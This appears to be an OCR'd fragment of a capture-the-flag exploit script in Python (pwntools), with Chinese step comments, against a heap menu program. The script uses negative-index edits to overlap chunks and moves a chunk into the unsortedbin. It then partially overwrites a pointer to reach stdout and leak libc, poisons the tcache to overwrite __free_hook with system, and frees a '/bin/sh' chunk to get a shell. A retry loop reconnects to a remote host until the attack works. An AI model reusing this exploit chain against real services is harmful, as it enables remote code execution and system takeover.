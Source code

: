 ```python
    sla(b'?', str(index).encode())
    sla(b':', content)

def pwn():
    # 堆叠
    add(0, 0x70, b'')
    for i in range(1,7):
        add(i, 0x50, b'')
    for i in range(7, 13):
        add(i, 0x70, b'')
    delete(1)
    delete(6)
    edit(-0x3e, p8(0x70))
    add(1, 0x50, b'')

    # 放进 unsortedbin
    edit(-0x3e, p64(0) + p16(0x461)) # check prev size 位 & next chunk prev inuse
    delete(2)

    # 把 unsorted chunk 放进 tcache 链
    delete(3)
    delete(4)
    edit(-0x3e, p8(0x80))

    # 更改 main_arena + 96 为 stdout
    add(3, 0x50, b'')
    m = 0 # 偏移，libc 只有后三位确定
    edit(-0x3e, p16((m*0x1000 + 0x26a0)%0x10000))
    add(4, 0x50, b'')

    # 修改 stdout file 泄露 libc
    edit(-0x3e, p64(0xfbad1800) + p64(0)*3 + p16((m*0x1000 + 0x26a0)%0x10000))
    stdout = u64(ru(b'\x7f')[-6:].ljust(8, b'\x00'))
    print('stdout>>>' + hex(stdout))
    libc = ELF(libc_path)
    libc_base = stdout - libc.sym['_IO_2_1_stdout_']

    # tcache poisoning
    delete(9)
    delete(8)
    edit(-0x3c, p64(libc_base + libc.sym['__free_hook'] - 0x8))
    add(8, 0x70, b'')
    add(9, 0x70, b'/bin/sh\x00' + p64(libc_base + libc.sym['system']))
    delete(9)

    p.interactive()

while 1:
    try:
        p = remote(ip, port)
        pwn()
        break
    except:
        p.close()
        continue

# pwn()
```
